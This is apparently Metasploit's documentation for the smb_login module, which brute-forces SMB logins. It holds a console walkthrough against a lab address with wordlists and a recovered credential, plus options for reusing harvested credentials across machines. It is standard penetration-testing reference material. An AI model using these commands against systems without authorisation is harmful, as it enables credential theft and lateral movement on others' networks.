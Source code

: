 The smb_login module is used to bruteforce SMB remotely. SMB credentials are extra valuable because they are system credentials, and you can probably reuse some of them to log in to more machines.

## Vulnerable Application

To use smb_login, make sure you are able to connect to a SMB service that supports SMBv1.

## Verification Steps

The following demonstrates a basic scenario of using the [built-in wordlists](https://github.com/rapid7/metasploit-framework/tree/master/data/wordlists) to brute-force SMB:

```
msf > use auxiliary/scanner/smb/smb_login 
msf auxiliary(smb_login) > set RHOSTS 192.168.1.80
RHOSTS => 192.168.1.80
msf auxiliary(smb_login) > set USER_FILE /Users/wchen/rapid7/msf/data/wordlists/unix_users.txt
USER_FILE => /Users/wchen/rapid7/msf/data/wordlists/unix_users.txt
msf auxiliary(smb_login) > set PASS_FILE /Users/wchen/rapid7/msf/data/wordlists/unix_passwords.txt
PASS_FILE => /Users/wchen/rapid7/msf/data/wordlists/unix_passwords.txt
msf auxiliary(smb_login) > run

[+] 192.168.1.80:445      - 192.168.1.80:445 SMB - Success: '.\root:monkey' Administrator
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(smb_login) > 
```

If you have a database connected, you should also see this credential logged:

```
msf auxiliary(smb_login) > creds
Credentials
===========

host          origin        service        public  private  realm  private_type
----          ------        -------        ------  -------  -----  ------------
192.168.1.80  192.168.1.80  445/tcp (smb)  root    monkey          Password

msf auxiliary(smb_login) 
```

## Options

By default, the smb_login module only requires the RHOSTS option to run. But in reality, you will
also need to supply user names and passwords. The following options are available to support
different credential formats:

**The USER_FILE option**

If you happen to manage all the found user names in a separate file, then this option would be
suitable for that. One per line.

An example of setting USER_FILE:

```
set USER_FILE [path to file]
```

**The PASS_FILE option**

If you happen to manage all the found passwords in a separate file, then this option would be
suitable for that. One per line.

```
set PASS_FILE [path to file]
```

**The USERPASS_FILE option**

If each user should be using a specific password in your file, then you can use this option. One
username/password per line:

```
set USERPASS_FILE [path to file]
```

**The DB_ALL_CREDS option**

This option allows you to reuse all the user names and passwords collected by the database:

```
set DB_ALL_CREDS true
```

**The DB_ALL_PASS option**

This option allows you to reuse all the passwords collected by the database.

```
set DB_ALL_PASS true
```

**The DB_ALL_USERS option**

This option allows you to reuse all the user names collected by the database.

```
set DB_ALL_USERS true
```

**The SMBUser option**

If you are testing a specific user, use this option.

```
set SMBUser [user name]
```

**The SMBPass option**

If you are testing a specific password, use this option.

```
set SMBPass [password]
```

Note: If an account has been successfully brute-forced, that account will not be tried again.

